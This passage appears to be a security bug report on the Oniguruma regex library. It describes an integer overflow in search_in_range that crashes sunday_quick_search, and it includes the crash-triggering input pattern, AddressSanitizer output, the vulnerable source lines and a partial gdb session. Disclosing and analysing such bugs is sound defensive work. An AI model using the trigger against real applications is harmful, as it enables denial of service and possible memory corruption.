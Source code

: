 To trigger the bug, supply the string "x" and patterns in the format "x{a}{b}0", where a and b are smaller than 100000. For example:

```console
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# ./PoC x{50000}{80000}0 x
ASAN:SIGSEGV
=================================================================
==4961==ERROR: AddressSanitizer: SEGV on unknown address 0xee5a5fdb (pc 0x080bf994 bp 0xffef2418 sp 0xffef23e0 T0)
    #0 0x80bf993 in sunday_quick_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4831
    #1 0x80c0685 in forward_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4956
    #2 0x80c2830 in search_in_range /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:5375
    #3 0x80c17f4 in onig_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:5168
    #4 0x8048cc4 in search /root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range.c:17
    #5 0x8049536 in main /root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range.c:78
    #6 0xf7049636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)
    #7 0x8048b00  (/root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range+0x8048b00)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4831 sunday_quick_search
==4961==ABORTING
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma#
```

# Analysis

**Referenced source code version: ca7ddbd858dcdc8322d619cf41ab125a2603a0d4**

The root cause comes from the line regex.c:5365, where an integer overflow occurs:

```vim
5360	      sch_range = (UChar* )range;
5361	      if (reg->dmax != 0) {
5362	        if (reg->dmax == INFINITE_LEN)
5363	          sch_range = (UChar* )end;
5364	        else {
5365	          sch_range += reg->dmax;  //// => overflow
5366	          if (sch_range > end) sch_range = (UChar* )end;
5367	        }
5368	      }

```
Integer overflow occurs when reg->dmax gets large enough value. reg->dmax seems to be some distance which is equal to \<number\> in pattern "x{\<number\>}y", where x can be any character, y must be a digit. For example, if provided pattern "a{1000}5", reg->dmax = 1000. See the following gdb log with "./PoC a{1000}5 b":

```console
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# gdb ./PoC
...
(gdb) b 61 # set breakpoint after onig_new
Breakpoint 1 at 0x804943d: file poc-dmax-search-in-range.c, line 61.
(gdb) r a{1000}0 b
Starting program: /root/fuzz/fuzz_oniguruma/PoC a{1000}0 b
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=3, argv=0xffffd634) at poc-dmax-search-in-range.c:61
warning: Source file is more recent than executable.
61	  if (r != ONIG_NORMAL) {
(gdb) p *reg
$1 = {ops = 0xf5b03760, ocs = 0xf5900be0, ops_curr = 0xf5b037b0, ops_used = 5, 
```
